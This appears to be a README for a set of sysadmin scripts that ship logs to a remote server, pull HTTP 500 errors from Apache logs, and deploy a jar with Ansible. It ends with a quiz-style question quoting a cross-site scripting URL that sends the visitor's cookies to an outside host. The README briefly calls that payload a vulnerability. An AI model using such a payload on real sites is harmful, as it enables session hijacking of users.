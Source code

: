 

###Send logs to remote server####

The first python script "dailyLogs.py" search the logs from the current day (getting the 
date from the system) and send all the logs generated at the 18, 19, 20 and 21 hours
Following the format YYYY_MM_DD_HH.log
There are some variables that need to be set for the script to work, this was made on 
propuse to avoid hardcoded paths.



###Get the 500 errors###

The second python script "errors500.py" collect all the lines with 500 errors from the last 10 minutes.
Considering that this script behaves more like a manual tool, and not like a task that is needed 
to run on a schedule, the functionality of the script works giving the path to the log that need 
to be parsed through the command line
For example
python errors500.py /var/log/apache/2016_10_24_21.log



###Deploy Jar###
For this script to work ansible need to be properly configured in the local host and the remote host as well.
A var file was added in the data directory, to have stored the hosts list where the jar want to be deployed,
also the source and destination path of the jar file.



What harm could result from the following:
http://www.example.com/search?q=&lt;script&gt;object.src=”http://otherexample.com/code?data=”+document.cookie&lt;/script&gt;
- Allowing to execute scripts from the client is a huge malpractice, and vulnerability


